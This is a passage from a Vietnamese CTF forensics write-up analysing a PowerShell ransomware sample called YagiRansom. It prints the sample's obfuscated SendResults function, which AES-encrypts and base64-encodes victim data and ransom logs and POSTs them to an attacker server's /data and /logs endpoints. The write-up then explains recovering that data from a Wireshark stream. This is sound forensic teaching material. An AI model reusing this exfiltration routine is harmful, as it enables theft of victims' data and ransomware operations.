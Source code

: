 - Hàm này là hàm mã hoá theo tiêu chuẩn AES sử dụng key đầu vào là 1 chuỗi được mã hoá sha256 mục đích để đảm bảo độ dài
- IV có thể được lấy từ 16 byte đầu tiên của dữ liệu đầu ra

```powershell
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```

- Mình sẽ lấy thằng `"> $cVl > $OgE > $zVSza > $7VEq"` ra trước để tiện cho việc xử lý dữ liệu sau này.
- Chuỗi này được lưu trong biến `$2YngY`, biến `$2YngY` được sử dụng trong hàm `R64Encoder` đã nói ở trên và gửi yêu cầu POST lên máy chủ với endpoint là /data
- Dựa vào luồng stream 0 của wireshark để trích xuất nó ra
- ![âmmamam](/assets/posts/ASCIS2024/8.png)